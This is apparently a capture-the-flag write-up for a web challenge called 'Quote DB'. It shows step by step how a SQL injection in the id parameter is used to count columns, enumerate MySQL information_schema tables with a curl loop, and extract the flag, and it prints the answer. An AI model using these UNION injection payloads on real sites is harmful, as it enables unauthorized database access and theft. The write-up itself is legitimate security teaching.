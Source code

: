# Challenge #14 - Quote DB

Category: `web`

## Story

>You don’t manage to disarm the guard, he is quicker than you are. He knocks you out, and when you wake up you’re inside a prison cell, but it doesn’t seem like you’re on a boat anymore, you must be inside the headquarters on the secret island! The cell is claustrophobic, with rusty iron bars and a bed of concrete.<br/><br/>
>In this challenge, you have to find the hidden flag. Good luck!

## Solution

This challenge comes with a URL: https://quotedb-web.2021.ctfcompetition.com/

Let's visit it and see what we're dealing with.

![The Quote DB homepage](quotedb_homepage.png)

The page source:

```html

<html>
  <head>
    <title>Quote DB</title>
    <link rel="stylesheet" href="style.css">
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.1/dist/js/bootstrap.bundle.min.js" integrity="sha384-gtEjrD/SeCtmISkJkNUaaKMoLD0//ElJ19smozuHV6z3Iehds+3Ulb9Bn9Plx0x4" crossorigin="anonymous"></script>
  </head>

  <body>

<h1>Welcome to the amazing Quote DB</h1>
<div>
  <p>Here's the quote of the day for you: </p>
  <p class='quote'>
    "If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower  </p>
  <p>
    If you'd like to return to this quote, just
    <a href="?id=1">click here</a>.
  </p>
</div>

</body>
</html>
```

There's practically nothing going on here. There's a quote and an author. There's no way to enter new quotes. Trying various sub-pages like "/admin" or "/add_quote" and variations also turns up nothing. There's no JavaScript, either included or embedded in the page source (besides [Bootstrap](https://getbootstrap.com/docs/3.4/javascript/)).

One cool thing you can do is use a website or extension like [BuiltWith](https://builtwith.com/) or [Wappalyzer](https://www.wappalyzer.com/) to profile the website and see what technologies it's using. In this case though, all we find is that the website uses Ubuntu, Apache, GCP and some kind of CDN. No hint on whether there's a database or what kind if so.

### Looking for SQL injection

The only piece of interactivity is this:

```
If you'd like to return to this quote, just click here.
```

That shows us that the page supports an `id` [query parameter](https://en.wikipedia.org/wiki/Query_string), like `/?id=2`. Maybe this can be exploited for [SQL injection](https://portswigger.net/web-security/sql-injection)?

Let's try a few things:

```
/?id=-1
Quote not found

/?id=1023821083902112038013122103810923821
Quote not found
```

No integer mis-parsing yet.

```
/?id=abcdefg
```

This is different. It responds with HTTP status 500 and an empty body. Maybe the id isn't properly escaped after all.

```
/?id=' OR 1=1
```

Same. Empty response and HTTP status 500. But no database dump, sadly.

```
/?id=1--
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Strangely, this appears to work, and returns quote 1.

What about this? *(I just guessed that the table is called "quotes")*

```
/?id=1 UNION SELECT * FROM quotes
If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

Oh! This isn't sanitized away! However, it returns the first quote, presumably because it selects the top result from the query. Let's verify this by using a nonexistent quote id but still selecting from the `quotes` table:

```
/?id=77 UNION SELECT * FROM quotes
"If you want total security, go to prison. There you're fed, clothed, given medical care and so on. The only thing lacking... is freedom." - Dwight D. Eisenhower
```

It works! It returns the first quote, presumably because the main query was something like this

```sql
SELECT *
FROM quotes
WHERE id = <id>
```

And we turned it into

```sql
SELECT *
FROM quotes
WHERE id = 77 UNION SELECT * FROM quotes
```

### Looking for the flag

Now what? We can already look up any row in the `quotes` table. Enumerating it only finds more quotes.

Maybe the flag is in another table. But how do we find out what tables are out there?

It's [possible](https://www.sqltutorial.org/sql-list-all-tables/) in some engines to directly query metadata tables. We don't know exactly what DB this website is using, but let's try a few known metadata table names.

Before we do so though, we need to determine how many columns are in the quotes database. We can't just `SELECT *` from arbitrary tables or the `UNION` would fail as it can't match up the rows. This is pretty simple to do though - just try selecting static values and increasing the number until we get a success.

```
/?id=77 UNION SELECT 1
HTTP Status 500

/?id=77 UNION SELECT 1,2
HTTP Status 500

/?id=77 UNION SELECT 1,2,3
HTTP Status 200
```

That was quick. There are 3 columns, probably the id, quote and author.

Next, let's look for the existence of metadata tables:

```
/?id=77 UNION SELECT 1,2,3 FROM user_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM dba_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM all_tables
HTTP Status 500

/?id=77 UNION SELECT 1,2,3 FROM information_schema.tables
HTTP Status 200
```

Interesting! That tells us we're dealing with [MySQL](https://www.mysql.com/). Now let's try to select some rows from it. You can Google and find [the docs](https://dev.mysql.com/doc/mysql-infoschema-excerpt/8.0/en/information-schema-tables-table.html) which describe the available columns.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables
"ALL_PLUGINS" - SYSTEM VIEW
```

Okay, not too helpful. We only get the top row so we need some way of selecting a specific row.

Googling "mysql select specific row" leads to [this StackOverflow answer](https://stackoverflow.com/a/10457494) which explains that the `LIMIT` clause allows specifying an offset. Let's try it.

```
/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 2,1
"CHARACTER_SETS" - SYSTEM VIEW

/?id=77 UNION SELECT TABLE_CATALOG,TABLE_NAME,TABLE_TYPE FROM information_schema.tables LIMIT 3,1
"CHECK_CONSTRAINTS" - SYSTEM VIEW
```

Cool! It works! Let's quickly enumerate all the tables (see [enumerate_tables.sh](enumerate_tables.sh)):

```sh
#!/usr/bin/env bash

for i in {1..1000}; do
  curl -s 'https://quotedb-web.2021.ctfcompetition.com/?id=77%20UNION%20SELECT%20TABLE_CATALOG,TABLE_NAME,TABLE_TYPE%20FROM%20information_schema.tables%20LIMIT%20'${i}',1' | grep '    "' | grep -o '".*"'
done
```

This takes a while, but it eventually finds us two key tables:

```sh
$ ./enumerate_tables.sh
...
"flag"
"quotes"
^C
```

### Extracting the flag

We don't know exactly how many columns are in the `flag` table but let's just try getting them all:

```
/?id=77 UNION SELECT * FROM flag
HTTP Status 500
```

Oops. Let's try adding more columns.

```
/?id=77 UNION SELECT *,0 FROM flag
HTTP Status 200
```

That succeeds and gives us the flag.

```
CTF{little_bobby_tables_we_call_him}
```








